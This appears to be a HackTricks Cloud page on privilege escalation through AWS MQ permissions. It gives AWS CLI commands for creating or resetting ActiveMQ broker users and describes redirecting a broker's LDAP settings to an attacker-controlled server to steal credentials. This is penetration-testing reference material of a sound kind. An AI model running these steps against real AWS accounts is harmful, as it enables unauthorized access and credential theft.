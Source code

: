 # AWS - MQ Privesc

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## MQ

For more information about MQ check:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

With those permissions you can **create a new user in an ActimeMQ broker** (this doesn't work in RabbitMQ):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Potential Impact:** Access sensitive info navigating through ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

With those permissions you can **create a new user in an ActimeMQ broker** (this doesn't work in RabbitMQ):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Potential Impact:** Access sensitive info navigating through ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

If a broker is using **LDAP** for authorization with **ActiveMQ**. It's possible to **change** the **configuration** of the LDAP server used to **one controlled by the attacker**. This way the attacker will be able to **steal all the credentials being sent through LDAP**.

```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```

If you could somehow find the original credentials used by ActiveMQ you could perform a MitM, steal the creds, used them in the original server, and send the response (maybe just reusing the crendetials stolen you could do this).

**Potential Impact:** Steal ActiveMQ credentials

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

